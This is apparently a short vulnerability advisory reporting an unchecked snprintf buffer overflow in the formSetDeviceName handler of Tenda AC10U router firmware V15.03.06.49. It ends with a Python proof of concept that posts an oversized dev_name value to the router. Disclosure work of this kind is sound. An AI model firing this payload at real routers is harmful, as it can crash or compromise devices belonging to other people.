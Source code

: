 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/formSetDeviceName

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](11.png)

get value from devName ,send to set_device_name

![](12.png)

and dont send the mac ,we can get into else
finally call snprint ,dont check the length ,cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/formSetDeviceName"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'dev_name': payload})
``` 
